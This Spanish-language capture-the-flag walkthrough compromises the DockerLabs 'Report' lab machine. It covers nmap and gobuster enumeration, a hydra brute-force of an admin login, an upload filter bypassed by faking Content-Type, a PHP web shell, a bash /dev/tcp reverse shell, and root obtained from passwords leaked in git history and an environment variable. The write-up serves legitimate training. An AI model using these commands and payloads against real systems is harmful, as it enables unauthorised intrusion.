









Hoy haremos la máquina "Report" de [DockerLabs](https://dockerlabs.es).

Autor: [TLuisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio



# RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Oct 20 18:36:14 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-10-20 18:36:14 -03 for 200s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 58:46:38:70:8c:d8:4a:89:93:07:b3:43:17:81:59:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK3jyO8oTx3+eTtg3uEj4vQXYl0j42cuhclLt2dyyfiFLbeW94LqNiU+Y7Ew2F93cNaw4X+HEs9XE6j6if3YDn8=
|   256 25:99:39:02:52:4b:80:3f:aa:a8:9a:d4:8e:9a:eb:10 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEm9qKfzI/z7OvQrroF3oJEDlNu9yzmddiw449QxIeeR
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://realgob.dl/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 45
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, SupportsCompression, FoundRows, IgnoreSigpipes, LongColumnFlag, InteractiveClient, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsTransactions, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, Support41Auth, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: g1\[69[?gkc1h7y~/iF^
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 20 18:39:34 2024 -- 1 IP address (1 host up) scanned in 200.81 seconds
```

Como vemos tenemos varias cosas, pero lo que nos interesa es la web en el puerto 80.

Cabe recalcar que esta máquina contiene múltiples vulnerabilidades, según tengo entendido esta máquina es para practicar el hacer un reporte real de una vulnerabilidad, acá voy a deja algunas de las que hay:

1. Cuando se inicia sesión se puede cambiar el "id" en la url para ver a otros usuarios
2. En las noticias hay un SQLi
3. En contacto un XSS y HTMLI
4. En "Acerca de" hay un LFI

Como vemos son varias, pero no se si todas permiten una intrusión, yo en este caso solo voy a mostrar una.

Ahora que sabemos que hay una web, usaremos `gobuster` para ver que encontramos:

```css
gobuster dir -u http://realgob.dl -w wordlist.txt -x php,html,txt 
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://realgob.dl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5048]
/images               (Status: 301) [Size: 309] [--> http://realgob.dl/images/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/about.php            (Status: 200) [Size: 4939]
/pages                (Status: 301) [Size: 308] [--> http://realgob.dl/pages/]
/uploads              (Status: 301) [Size: 310] [--> http://realgob.dl/uploads/]
/info.php             (Status: 200) [Size: 76228]
/login.php            (Status: 200) [Size: 4350]
/admin.php            (Status: 200) [Size: 1005]
/assets               (Status: 301) [Size: 309] [--> http://realgob.dl/assets/]
/includes             (Status: 301) [Size: 311] [--> http://realgob.dl/includes/]
/database             (Status: 301) [Size: 311] [--> http://realgob.dl/database/]
/api                  (Status: 301) [Size: 306] [--> http://realgob.dl/api/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/noticias.php         (Status: 200) [Size: 22]
/logs                 (Status: 301) [Size: 307] [--> http://realgob.dl/logs/]
/LICENSE              (Status: 200) [Size: 0]
/contacto.php         (Status: 200) [Size: 2893]
/important.txt        (Status: 200) [Size: 1818]
/registro.php         (Status: 200) [Size: 2445]
/desarrollo           (Status: 301) [Size: 313] [--> http://realgob.dl/desarrollo/]
Progress: 147693 / 882240 (16.74%)
===============================================================
Finished
===============================================================
```

Al parecer tenemos un `admin.php`, el cual si vamos desde el navegador veremos lo siguiente:



Como vemos tenemos un panel de inicio de sesión, sabiendo esto podríamos intentar usar `hydra` para hacer fuerza bruta y ver si obtenemos la contraseña:

```css
hydra -l admin -P /opt/rockyou.txt realgob.dl http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos."
```



como vemos, hemos obtenido la contraseña, "admin:admin123" (para obtenerla hay que esperar bastante ya que se encuentra en la línea 90006).

# INTRUSIÓN

Ahora estando dentro de "cargas.php", veremos lo siguiente:



Al parecer nos permite subir archivos, los cuales si subimos estarán en "/uploads/", el problema de esto es que si intentamos subir un archivo php, nos dirá que no está permitido ese tipo de archivos, también si intentamos hacer un bypass de la extensión nos dirá lo mismo, por lo que mejor abrimos el burpsuite y vemos que hace por detrás. Una vez interceptada la petición, presionaremos "ctrl+r" al mismo tiempo, esto nos mandará la petición al repeater y estaremos más cómodos:



En este caso, puede que la web no se fije en la extensión sino en el "Content-type", por lo que podríamos cambiarlo por "image/jpeg", quedará así:



Una vez cambiado solo le damos a "send", y en la respuesta veremos esto:



Ahora que ya se subió, tendremos que hacer una u otra cosa dependiendo de nuestra shell, en mi caso es esta:

```php
<?php
system($_GET['cmd']);
?>
```

y con esta debemos hacer lo siguiente:

1. Primero preparamos el `netcat` escuchando por el puerto 443: `nc -lvnp 443`
2. Ahora vamos a la url donde se encuentra el archivo, en este caso sería: http://realgob.dl/uploads/cmd.php
3. Luego en la url agregamos lo siguiente: ?cmd=<comando>. Esto nos permitirá ejecutar comandos, por lo que para enviarnos una shell debemos poner lo siguiente: `bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`

Una vez enviado estaremos dentro de la máquina.

# ESCALADA DE PRIVILEGIOS

### www-data

Siendo el usuario `www-data` haremos el tratamiento de la tty. [¿Como hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

Ahora, luego de buscar veremos que en "/var/www/html/desarrollo/" hay una carpeta ".git", esto significa que tendríamos un "repositorio" ahí, y como no hay nada interesante, podríamos ver los logs u archivos borrados para ver si obtenemos algo. Para hacerlo haremos lo siguiente:

Primero ejecutamos `git log`:

```css
commit e84b3048cf586ad10eb3194025ae9d57dac8b629 (HEAD -> master)
Author: developer <developer@example.com>
Date:   Mon Oct 14 07:47:14 2024 +0000

    Cambios en el panel de login

commit 1e3fe13e662dacb85056691d3afc932c16a1e3df
Author: sysadmin <sysadmin@example.com>
Date:   Mon Oct 14 07:46:57 2024 +0000

    Actualizaci<C3><B3>n de la versi<C3><B3>n de PHP

commit cd04778b50b131f5041bd7f9e6895741d6f4b98b
Author: editor <editor@example.com>
Date:   Mon Oct 14 07:46:43 2024 +0000

    Actualizaci<C3><B3>n de contenido en el panel de noticias

commit 0baffeec1777f9dfe201c447dcbc37f10ce1dafa
Author: adm <adm@example.com>
Date:   Mon Oct 14 07:44:17 2024 +0000

    Acceso a Remote Management

commit 2d5e983bab20c69c2f2ddc75a51720dbe60958e6
Author: Usuario Simulado <usuario.simulado@example.com>
Date:   Mon Oct 14 07:39:40 2024 +0000

    Registrar actividad sospechosa

commit e562db0b7923041980332e5988d94edf9a5df602
Author: Usuario Simulado <usuario.simulado@example.com>
Date:   Mon Oct 14 07:39:33 2024 +0000

    Registrar cambio en la configuraci<C3><B3>n del sistema
```

Al parecer tenemos varios, pero el que nos interesa es el siguiente:

```css
commit 0baffeec1777f9dfe201c447dcbc37f10ce1dafa
Author: adm <adm@example.com>
Date:   Mon Oct 14 07:44:17 2024 +0000

    Acceso a Remote Management
```

este nos interesa porque el autor es el usuario "adm", que si nos fijamos se encuentra en el sistema.

Ahora ejecutaremos `git show 0baffeec1777f9dfe201c447dcbc37f10ce1dafa` para ver que tenía ese "commit":

```css
commit 0baffeec1777f9dfe201c447dcbc37f10ce1dafa
Author: adm <adm@example.com>
Date:   Mon Oct 14 07:44:17 2024 +0000

    Acceso a Remote Management

diff --git a/remote_management_log.txt b/remote_management_log.txt
new file mode 100644
index 0000000..eafd8c6
--- /dev/null
+++ b/remote_management_log.txt
@@ -0,0 +1 @@
+Acceso a Remote Management realizado por 'adm' el Mon Oct 14 07:44:17 GMT 2024. Nueva contrase<C3><B1>a: 9fR8pLtXXXXXXXXXXXXXXXXXXXXXXXX
```

Como vemos, ya tenemos una pass para el usuario "adm": adm:9fR8pLtXXXXXXXXXXXXXXXXXXXXXXX

#### Adm

Luego de revisar algunas cosas, pruebo ver las variables de entorno con `export -p` y se vé la siguiente:

```css
MY_PASS=64 6f 63 6b 65 72 6c 61 62 73 34 75
```

Si le pasamos esto a [CyberChef](https://gchq.github.io/CyberChef/) nos dirá lo siguiente:



al parecer, la contraseña de root es "dockerlabs4u", por lo que escalamos ejecutando `su root`  y poniendo su contraseña.

### Root



Gracias por leer......